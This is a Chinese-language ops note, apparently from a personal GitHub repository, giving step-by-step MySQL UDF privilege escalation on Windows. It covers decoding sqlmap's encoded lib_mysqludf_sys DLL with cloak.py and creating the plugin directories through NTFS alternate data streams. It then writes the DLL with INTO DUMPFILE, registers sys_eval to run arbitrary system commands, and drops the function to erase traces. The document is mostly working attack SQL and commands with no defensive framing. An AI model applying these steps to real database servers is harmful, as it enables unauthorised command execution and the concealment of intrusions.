


# MySQL UDF 提权

> GitHub 仓库源文件：[点击打开网页渲染版](https://github.com/ben2023niao/ben-ops-notes/blob/main/doc/md/202304141557-%E5%AE%89%E5%85%A8%E4%B8%8E%E5%A0%A1%E5%9E%92%E6%9C%BA%2B%E5%AE%89%E5%85%A8%E8%BF%90%E7%BB%B4%2BWindows%2BMySQL-MySQL%20UDF%20%E6%8F%90%E6%9D%83.md)

先查看 **secure_file_priv** 的值是否为空，因为**只有为空我们才能继续下面的提权步骤**





提权步骤：

1. 获取udf代码

```
sqlmap中有现成的udf文件，分为32位和64位，一定要选择对版本，否则会显示：Can‘t open shared library ‘udf.dll‘。
sqlmap\udf\mysql\windows\32目录下存放着lib_mysqludf_sys.dll_
sqlmap\udf\mysql\windows\64目录下为64位的lib_mysqludf_sys.dll_
但是sqlmap 中 自带 的shell 以及一些二进制文件，为了防止被误杀都经过异或方式编码，不能直接使用的。
可以利用sqlmap 自带的解码工具cloak.py，进入到 sqlmap\extra\cloak\cloak 目录下，执行命令：
cloak.py -d -i D:\sqlmap\udf\mysql\windows\32\lib_mysqludf_sys.dll_
sqlmap中的udf文件提供的函数：
sys_eval，执行任意命令，并将输出返回。
sys_exec，执行任意命令，并将退出码返回。
sys_get，获取一个环境变量。
sys_set，创建或修改一个环境变量。
```

1. 将udf文件上传到指定位置

```sql
MySQL<5.0，导出路径随意；
5.0 <= MySQL<5.1，则需要导出至目标服务器的系统目录（如：c:/windows/system32/）
MySQL 5.1以上版本，必须要把udf.dll文件放到MySQL安装目录下的lib\plugin文件夹下才能创建自定义函数。
select @@basedir; #查看mysql安装目录
select 'It is dll' into dumpfile 'C:\\Program Files\\MySQL\\MySQL Server 5.1\\lib::$INDEX_ALLOCATION'; //利用NTFS ADS创建lib目录
select 'It is dll' into dumpfile 'C:\\Program Files\\MySQL\\MySQL Server 5.1\\lib\\plugin::$INDEX_ALLOCATION'; //利用NTFS ADS创建plugin目录
select 0xUDFcode into dumpfile 'C:\\Program Files\\MySQL\\MySQL Server 5.1\\lib\\plugin\\udf.dll'; #导出udfcode，注意修改udfcode
```

1. 从udf文件中引入自定义函数

```sql
create function sys_eval returns string soname 'udf.dll';
//sys_eval是函数名称（可选shell,sys_exec,sys_eval），udf.dll是lib_mysqludf_sys.dll_上传后的文件名
```

1. 执行命令

```python
select * from mysql.func where name = 'sys_eval'; #查看创建的sys_eval函数
select sys_eval('whoami'); #使用系统命令
```

1. 痕迹清除

```sql
drop function sys_eval; #删除函数
delete from mysql.func where name='sys_eval' #删除函数
```
